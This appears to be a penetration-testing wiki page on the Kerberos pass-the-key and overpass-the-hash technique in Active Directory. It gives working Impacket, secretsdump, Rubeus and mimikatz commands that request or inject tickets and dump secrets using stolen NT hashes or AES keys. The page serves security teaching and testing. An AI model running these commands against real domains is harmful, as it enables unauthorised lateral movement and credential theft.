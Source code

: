 ```yaml
---
authors: ShutdownRepo, mauricelambert, sckdev
category: ad
---
```


# Pass the key

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. A Service Ticket (ST) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to [ASREProast](asreproast.md)).

The pre-authentication requires the requesting user to supply its secret key (DES, RC4, AES128 or AES256) derived from the user password. An attacker knowing that secret key doesn't need knowledge of the actual password to obtain tickets. This is called pass-the-key.

Kerberos offers 4 different key types: DES, RC4, AES-128 and AES-256.

* When the RC4 etype is enabled, the RC4 key can be used. The problem is that the RC4 key is in fact the user's NT hash. Using a an NT hash to obtain Kerberos tickets is called [overpass the hash](opth.md).
* When RC4 is disabled, other Kerberos keys (DES, AES-128, AES-256) can be passed as well. This technique is called pass the key. In fact, only the name and key used differ between overpass the hash and pass the key, the technique is the same.

## Practice

::: tabs

=== UNIX-like

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [getTGT](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py) (Python) can request a TGT (Ticket Granting Ticket) given a password, hash (`LMhash` can be empty), or aesKey. The TGT will be saved as a `.ccache` file that can then be used by other Impacket scripts.

```bash
# with an NT hash (overpass-the-hash)
getTGT.py -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET

# with an AES (128 or 256 bits) key (pass-the-key)
getTGT.py -aesKey 'KerberosKey' $DOMAIN/$USER@$TARGET
```

Once a TGT is obtained, the tester can use it with the environment variable `KRB5CCNAME` with tools implementing [pass-the-ticket](ptt.md).

An alternative to requesting the TGT and then passing the ticket is using the `-k` option in Impacket scripts. Using that option allows for passing either TGTs or STs. Example below with secretsdump.

```bash
secretsdump.py -k -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET
```


=== Windows

On Windows, requesting a TGT can be achieved with [Rubeus](https://github.com/GhostPack/Rubeus) (C#). The ticket will be injected in the session and Windows will natively be able to use these tickets to access given services.

```powershell
# with an NT hash
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NThash /ptt

# with an AES 128 key
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes128:$aes128_key /ptt

# with an AES 256 key
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes256:$aes256_key /ptt
```

An alternative to Rubeus is [mimikatz](https://github.com/gentilkiwi/mimikatz) with [`sekurlsa::pth`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/pth).

```powershell
# with an NT hash
sekurlsa::pth /user:$USER /domain:$DOMAIN /rc4:$NThash /ptt

# with an AES 128 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes128:$aes128_key /ptt

# with an AES 256 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes256:$aes256_key /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](ptt.md#injecting-the-ticket).

:::


## Resources

[https://blog.notso.pro/2020-05-09-offops-in-ad-1/](https://blog.notso.pro/2020-05-09-offops-in-ad-1/)

[http://blog.gentilkiwi.com/securite/mimikatz/overpass-the-hash](http://blog.gentilkiwi.com/securite/mimikatz/overpass-the-hash)

[https://blog.stealthbits.com/how-to-detect-overpass-the-hash-attacks/](https://blog.stealthbits.com/how-to-detect-overpass-the-hash-attacks/)